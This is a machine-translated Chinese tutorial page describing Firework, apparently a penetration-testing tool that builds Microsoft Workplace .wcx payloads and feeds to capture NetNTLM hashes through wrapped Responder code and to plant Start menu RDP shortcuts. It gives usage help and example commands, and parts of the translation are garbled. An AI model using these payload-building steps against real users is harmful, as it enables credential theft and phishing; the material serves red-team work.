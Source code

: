 # firework——与创建有效文件的微软工作区交互的工具

> 原文：<https://kalilinuxtutorials.com/firework-tool-interact-microsoft-workplaces/>

Firework 是一个概念验证工具，用于与 Microsoft 工作区进行交互，创建供应流程所需的有效文件。该工具还包装了 Responder 的一些代码，以利用它从通过它提供 Workplace feed 的系统中捕获 NetNTLM 哈希的能力。

此工具可用作渗透测试或红队练习的一部分，以创建一个. wcx 有效负载(和相关的提要),单击它可用于:

*   凭据的费西合唱团-如果用户输入凭据，将发送 NetNTLM 哈希(或在旧版本的 Windows 上自动发送)。
*   将项目添加到开始菜单–在设置快捷方式被添加到开始菜单后，启动所提供的 RDP 文件。这些条目有可能被用作更广泛的社会工程活动的一部分。
*   下载资源——如。Windows 每天都会下载和更新 rdp 文件和图标文件(如果禁用或满足馈送的身份验证)。

## **烟花安装**

*   使用 Python 2.7.x 进行了测试(Python3 目前不支持，尽管主要的 Firework 类可以在 Python 3 中使用)

```
$ pip install -r requirements.txt
```

*   该工具通过 HTTPS 提供内容，需要证书和私钥才能使用内置的带有 NetNTLM 捕获的 web 服务器。默认文件:***cert . CRT**T3*和**key . PEM****

**也可阅读[kismac 2——免费开源无线绊脚石&Mac 安全工具 OS X](https://kalilinuxtutorials.com/kismac2-open-source-wireless-mac/)**

## **用途**

```
 **.-:::::'::::::::::..  .,::::::.::    .   .:::  ...    :::::::..    :::  .   
;;;'''' ;;;;;;;``;;;; ;;;;''''';;,  ;;  ;;;'.;;;;;;;. ;;;;``;;;;   ;;; .;;,.
[[[,,== [[[ [[[,/[[['  [[cccc  '[[, [[, [[',[[     \[[,[[[,/[[['   [[[[[/'  
`$$$"`` $$$ $$$$$$c    $$""""    Y$c$$$c$P $$$,     $$$$$$$$$c    _$$$$,    
 888    888 888b "88bo,888oo,__   "88"888  "888,_ _,88P888b "88bo,"888"88o, 
 "MM,   MMM MMMM   "W" """"YUMMM   "M "M"    "YMMMMMP" MMMM   "W"  MMM "MMP"

usage: firework.py [-h] -c COMPANY -u URL -a APP -e EXT -i ICON [-l LISTEN]
                   [-r RDP] [-d DOMAIN] [-n USERNAME] [-p PASSWORDHASH]
                   [-t CERT] [-k KEY]

WCX workplace tool

optional arguments:
  -h, --help            show this help message and exit
  -c COMPANY, --company COMPANY
                        Company name
  -u URL, --url URL     Feed URL
  -a APP, --app APP     App Name
  -e EXT, --ext EXT     App Extension
  -i ICON, --icon ICON  App Icon
  -l LISTEN, --listen LISTEN
                        TLS Web Server Port
  -r RDP, --rdp RDP     RDP Server
  -d DOMAIN, --domain DOMAIN
                        RDP Domain
  -n USERNAME, --username USERNAME
                        RDP Username
  -p PASSWORD, --password PASSWORD
                        RDP Password
  -t CERT, --cert CERT  SSL cert
  -k KEY, --key KEY     SSL key
```

## **例子**

基本示例:

*   组织名称:EvilCorp
*   XML 提要的 URL(或者 Firework 内置服务器的 URL):[https://example.org/](https://example.org/)–这是 Windows 下载提要的地方。
*   应用名称:烟花
*   文件扩展名:。fwk
*   图标文件:firework.ico

```
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico 
```

如果当前目录中存在 **cert.crt** 和 **key.pem** ，内置 web 服务器将在端口 443 上启动。这将迫使响应者进行 NTLM 挑战。如果这些文件不存在，该工具会将所有文件写入您自己托管的本地目录。

如果您希望在备用端口上启动内置 web 服务器，请使用-l 标志，如下所示:

```
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico 
```

您还可以向添加一些自定义内容。接受服务的 rdp 文件。

*   远程桌面服务器:dc 公司本地
*   域:公司本地
*   用户名:admin
*   密码加密:包含在 RDP 文件中的加密密码

注意:密码存储在。在默认配置中，rdp 文件可能会被忽略。

```
python ./firework.py -c EvilCorp -u https://example.org/ -a Firework -e .fwk -i ./firework.ico -r dc.corp.local -d corp.local -n admin -p <crypt password>
```

## **有效载荷**

运行工具“payload.wcx”后，将被写入当前目录。单击该文件将启动配置过程。

[![](img/d861a9096555aeb1980fc054015933d7.png) ](https://github.com/SpiderLabs/Firework/) **鸣谢:大卫·米德尔赫斯特**